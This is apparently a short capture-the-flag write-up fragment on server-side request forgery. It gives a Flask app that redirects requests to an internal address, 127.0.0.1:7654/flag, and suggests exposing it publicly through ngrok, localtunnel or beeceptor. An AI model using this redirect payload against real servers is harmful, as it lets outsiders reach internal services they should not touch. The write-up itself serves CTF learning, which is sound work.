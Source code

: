 ## SSRF
You can perform a redirect by creatign the following payload:

```python
from flask import Flask, redirect

app = Flask(__name__)


@app.route("/")
def hello_world():
    return redirect("http://127.0.0.1:7654/flag")
```

After that, deploy service with `ngrok`, or `localtunnel`. Alternatively, [beeceptor](https://beeceptor.com/) works too maybe.